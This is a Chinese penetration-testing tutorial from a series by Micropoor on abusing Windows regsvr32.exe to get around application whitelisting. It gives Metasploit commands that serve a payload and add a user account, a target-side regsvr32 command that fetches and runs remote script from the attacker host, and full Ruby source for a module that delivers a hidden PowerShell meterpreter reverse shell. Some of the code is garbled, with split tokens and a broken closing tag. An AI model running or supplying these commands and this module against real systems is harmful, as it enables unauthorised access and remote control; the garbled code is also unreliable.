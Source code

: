 ```yaml
---
title: 79、基于白名单Regsvr32执行payload第九季
date: 2019-09-21 19:06:30
comments: true
categories: 
 - Micro8系列
---
```



**注：**请多喝点热水或者凉白开，身体特别重要。

### Regsvr32简介：

Regsvr32命令用于注册COM组件，是 Windows 系统提供的用来向系统注册控件或者卸载控件的命令，以命令行方式运行。WinXP及以上系统的regsvr32.exe在windows\system32文件夹下；2000系统的regsvr32.exe在winnt\system32文件夹下。但搭配regsvr32.exe使用的 DLL，需要提供 DllRegisterServer 和 DllUnregisterServer两个输出函式，或者提供DllInstall输出函数。

**说明：**Regsvr32.exe所在路径已被系统添加PATH环境变量中，因此，Regsvr32命令可识别。

Windows 2003 默认位置：
```code
C:\WINDOWS\SysWOW64\regsvr32.exe
C:\WINDOWS\system32\regsvr32.exe
```


**攻击机：**192.168.1.4 Debian  
**靶机：** 192.168.1.119 Windows 2003  

msf 已内置auxiliary版本的regsvr32_command_delivery_server，但是最新版已经无exploit版本regsvr32，文章结尾补充。

### 配置攻击机msf：
```code
msf auxiliary(server/regsvr32_command_delivery_server) > use auxiliary/server/regsvr32_command_delivery_server
msf auxiliary(server/regsvr32_command_delivery_server) > set CMD net user Micropoor Micropoor /add
CMD => net user Micropoor Micropoor /add
msf auxiliary(server/regsvr32_command_delivery_server) > exploit 

[*] Using URL: http://0.0.0.0:8080/ybn7xESQYCGv
[*] Local IP: http://192.168.1.4:8080/ybn7xESQYCGv
[*] Server started.
[*] Run the following command on the target machine:

regsvr32 /s /n /u /i:http://192.168.1.4:8080/ybn7xESQYCGv scrobj.dll 
```
![](../do/media/415719c964de78a36a9cad8e7d273025.jpg)

### 靶机执行：
```code
regsvr32 /s /n /u /i:http://192.168.1.4:8080/ybn7xESQYCGv scrobj.dll
```
![](../do/media/d6dba86fd41bcac90db86ecc3dc6e7e7.jpg)

![](../do/media/392c2c955e7d666b5015f30149866cf5.jpg)  

![](../do/media/d9c0e792eced1468f86880e42bc28a56.jpg)  

![](../do/media/d70caf10069603b0d0bffa73ecbabc29.jpg)

### 附：powershell 版 Regsvr32

**regsvr32_applocker_bypass_server.rb**
```ruby
##

# This module requires Metasploit: http://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit‐framework

## 

class MetasploitModule < Msf::Exploit::Remote
Rank = ManualRanking 

include Msf::Exploit::Powershell
include Msf::Exploit::Remote::HttpServer 

def initialize(info = {})
super(update_info(info,
'Name' => 'Regsvr32.exe (.sct) Application Whitelisting Bypass Serve r', 'Description' => %q(
This module simplifies the Regsvr32.exe Application Whitelisting Bypass technique.
The module creates a web server that hosts an .sct file. When the user types the provided regsvr32 command on a system, regsvr32 will request the .sct file and then execute the included PowerShell command.
This command then downloads and executes the specified payload (similar to the web_delivery module with PSH).
Both web requests (i.e., the .sct file and PowerShell download and execute) can occur on the same port.
),

'License' => MSF_LICENSE,
'Author' =>
[
'Casey Smith', # AppLocker bypass research and vulnerability discover y(\@subTee)
'Trenton Ivey', # MSF Module (kn0)
],
'DefaultOptions' =>
{
'Payload' => 'windows/meterpreter/reverse_tcp'
},
'Targets' => [['PSH', {}]],
'Platform' => %w(win),
'Arch' => [ARCH_X86, ARCH_X86_64],
'DefaultTarget' => 0,
'DisclosureDate' => 'Apr 19 2016',
'References' =>
[
['URL', 'http://subt0x10.blogspot.com/2016/04/bypass‐application‐whitelisting‐script.html']
]
))
end 

def primer
print_status('Run the following command on the target machine:')
print_line("regsvr32 /s /n /u /i:\#{get_uri}.sct scrobj.dll")
end 

def on_request_uri(cli, _request)
# If the resource request ends with '.sct', serve the .sct file
# Otherwise, serve the PowerShell payload
if _request.raw_uri =~ /\.sct$/
serve_sct_file
else
serve_psh_payload
end
end 

def serve_sct_file
print_status("Handling request for the .sct file from #{cli.peerhost}")
ignore_cert = Rex::Powershell::PshMethods.ignore_ssl_certificate if ssl
download_string = Rex::Powershell::PshMethods.proxy_aware_download_and_exec_string(get_uri)
download_and_run = "#{ignore_cert}#{download_string}"
psh_command = generate_psh_command_line(
noprofile: true,
windowstyle: 'hidden',
command: download_and_run
)
data = gen_sct_file(psh_command)
send_response(cli, data, 'Content‐Type' => 'text/plain')
end 

def serve_psh_payload
print_status("Delivering payload to #{cli.peerhost}")
data = cmd_psh_payload(payload.encoded,
payload_instance.arch.first,
remove_comspec: true,
use_single_quotes: true
)
send_response(cli,data,'Content‐Type' => 'application/octet‐stream')
end 

def rand_class_id
"#{Rex::Text.rand_text_hex 8}‐#{Rex::Text.rand_text_hex 4}‐#{Rex::Text.rand_text_hex 4}‐#{Rex::Text.rand_text_hex 4}‐#{Rex::Text.rand_text_hex12}"
end 

def gen_sct_file(command)
%{<?XML version="1.0"?><scriptlet><registrationprogid="\#{rand_text_a lphanumeric 8}"
classid="{#{rand_class_id}}"><script><![CDATA[ var r = ne wActiveXObject("WScript.Shell").Run("#{command}",0);]]><script></registration></scriptlet>}
end 

end
```

**使用方法：**

copy regsvr32_applocker_bypass_server.rb to /usr/share/metasploit-framework/modules/exploits/windows/misc  

![](../do/media/f0b5c59eb47dd53e8780a31320b41113.jpg)

>   Micropoor
